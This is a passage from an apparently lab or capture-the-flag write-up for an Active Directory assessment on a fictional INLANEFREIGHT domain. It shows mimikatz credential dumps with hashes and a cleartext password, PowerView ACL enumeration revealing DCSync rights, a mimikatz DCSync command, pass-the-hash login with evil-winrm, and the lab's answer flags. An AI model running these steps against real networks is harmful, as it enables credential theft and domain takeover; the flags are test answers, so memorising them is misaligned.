Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : MS01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               : S-1-5-20
	msv :
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * NTLM     : 0950e8c7abfeedd6eca5dd1b6b9efbd3
	 * SHA1     : 8eecfb950a33c107de05400b63385711ee0f8cda
	tspkg :
	wdigest :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	kerberos :
	 * Username : ms01$
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : (null)
	ssp :
	credman :

Authentication Id : 0 ; 35509 (00000000:00008ab5)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               : S-1-5-96-0-0
	msv :
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * NTLM     : 0950e8c7abfeedd6eca5dd1b6b9efbd3
	 * SHA1     : 8eecfb950a33c107de05400b63385711ee0f8cda
	tspkg :
	wdigest :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	kerberos :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	ssp :
	credman :

Authentication Id : 0 ; 164257 (00000000:000281a1)
Session           : Interactive from 1
User Name         : tpetty
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 8/21/2026 12:39:23 AM
SID               : S-1-5-21-2270287766-1317258649-2146029398-4607
	msv :
	 [00000003] Primary
	 * Username : tpetty
	 * Domain   : INLANEFREIGHT
	 * NTLM     : fd37b6fec5704cadabb319cebf9e3a3a
	 * SHA1     : 38afea42a5e28220474839558f073979645a1192
	 * DPAPI    : da2ec07551ab1602b7468db08b41e3b2
	tspkg :
	wdigest :
	 * Username : tpetty
	 * Domain   : INLANEFREIGHT
	 * Password : Sup3rS3cur3D0m@inU2eR
	kerberos :
	 * Username : tpetty
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : (null)
	ssp :
	credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               : S-1-5-19
	msv :
	tspkg :
	wdigest :
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :
	credman :

Authentication Id : 0 ; 55440 (00000000:0000d890)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               : S-1-5-90-0-1
	msv :
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * NTLM     : 0950e8c7abfeedd6eca5dd1b6b9efbd3
	 * SHA1     : 8eecfb950a33c107de05400b63385711ee0f8cda
	tspkg :
	wdigest :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	kerberos :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	ssp :
	credman :

Authentication Id : 0 ; 35578 (00000000:00008afa)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/21/2026 12:39:20 AM
SID               : S-1-5-96-0-1
	msv :
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * NTLM     : 0950e8c7abfeedd6eca5dd1b6b9efbd3
	 * SHA1     : 8eecfb950a33c107de05400b63385711ee0f8cda
	tspkg :
	wdigest :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	kerberos :
	 * Username : MS01$
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : 79 79 12 f3 b4 d6 05 2b 10 8d 9c b8 73 e0 99 b3 15 6c d4 50 d9 a1 7c 7f 43 ac 25 e6 a0 c7 65 fa 2c 54 f6 ad 17 ff bb 0a 93 84 c7 7c 7a a5 8b e0 b9 b1 71 cc 57 36 24 ce 82 1e 45 ad d1 59 bf 90 46 21 b3 87 69 f4 4e 9e e7 ed b5 11 39 44 7d 81 84 a6 54 76 64 64 e7 63 54 de 75 4a 25 b9 17 9f a6 36 ab 2c 93 a9 06 40 c4 46 0b 53 fb 1b f6 a4 d5 c1 40 1d 4d 0a ac 3b 0f b5 8d e3 bc b1 c6 35 c2 a2 58 54 3c 57 92 18 66 9b 50 71 77 89 6d 81 60 1b 86 63 b9 10 31 36 04 74 b5 e0 ec 70 1f 6a ba 34 42 b0 33 8d 1d 5a 0d 89 a7 02 58 60 c1 57 b2 64 b3 0a 85 e9 02 45 b3 35 3f 1f 5c fd 76 e4 07 a9 90 3f 16 9b a6 bd e0 02 c5 de 15 9a 8d 41 52 77 c8 cf 8c a4 3e d8 5d 1d ec 9d 72 61 b0 2f 44 26 09 9d cb d5 e1 05 5d fb 90 9c ab 75 ee e7
	ssp :
	credman :
```

**Answer:** `tpetty`

---

### 6. Submit this user's cleartext password.

Context:
```powershell
Authentication Id : 0 ; 164257 (00000000:000281a1)
Session           : Interactive from 1
User Name         : tpetty
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 8/21/2026 12:39:23 AM
SID               : S-1-5-21-2270287766-1317258649-2146029398-4607
	msv :
	 [00000003] Primary
	 * Username : tpetty
	 * Domain   : INLANEFREIGHT
	 * NTLM     : fd37b6fec5704cadabb319cebf9e3a3a
	 * SHA1     : 38afea42a5e28220474839558f073979645a1192
	 * DPAPI    : da2ec07551ab1602b7468db08b41e3b2
	tspkg :
	wdigest :
	 * Username : tpetty
	 * Domain   : INLANEFREIGHT
	 * Password : Sup3rS3cur3D0m@inU2eR
	kerberos :
	 * Username : tpetty
	 * Domain   : INLANEFREIGHT.LOCAL
	 * Password : (null)
	ssp :
	credman :
```

**Answer:** `Sup3rS3cur3D0m@inU2eR`

---

### 7. What attack can this user perform?

Context:
- RDP as `svc_sql`:
```powershell
PS C:\Users\svc_sql.INLANEFREIGHT\Documents> Import-Module .\PowerView.ps1
PS C:\Users\svc_sql.INLANEFREIGHT\Documents> $sid = Convert-NameToSid tpetty
PS C:\Users\svc_sql.INLANEFREIGHT\Documents> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}


ObjectDN               : DC=INLANEFREIGHT,DC=LOCAL
ObjectSID              : S-1-5-21-2270287766-1317258649-2146029398
ActiveDirectoryRights  : ExtendedRight
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 89e95b76-444d-4c62-991a-0facbeda640c
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 256
SecurityIdentifier     : S-1-5-21-2270287766-1317258649-2146029398-4607
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None

ObjectDN               : DC=INLANEFREIGHT,DC=LOCAL
ObjectSID              : S-1-5-21-2270287766-1317258649-2146029398
ActiveDirectoryRights  : ExtendedRight
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 256
SecurityIdentifier     : S-1-5-21-2270287766-1317258649-2146029398-4607
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None

ObjectDN               : DC=INLANEFREIGHT,DC=LOCAL
ObjectSID              : S-1-5-21-2270287766-1317258649-2146029398
ActiveDirectoryRights  : ExtendedRight
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 256
SecurityIdentifier     : S-1-5-21-2270287766-1317258649-2146029398-4607
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
```

**Answer:** `DCSync`

---

### 8. Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01

Context:
- Create a PowerShell terminal as `tpetty`:
```powershell
PS C:\Users\svc_sql.INLANEFREIGHT\Documents> runas /user:INLANEFREIGHT\tpetty powershell.exe
Enter the password for INLANEFREIGHT\tpetty:
Attempting to start powershell.exe as user "INLANEFREIGHT\tpetty" ...
```
- Using `mimikatz.exe`:
```
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
<SNIP>
```
- Create a terminal as `administrator`:
```bash
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

**Answer:** `r3plicat1on_m@st3r!`

---

[Back to Module Index](./README.md)
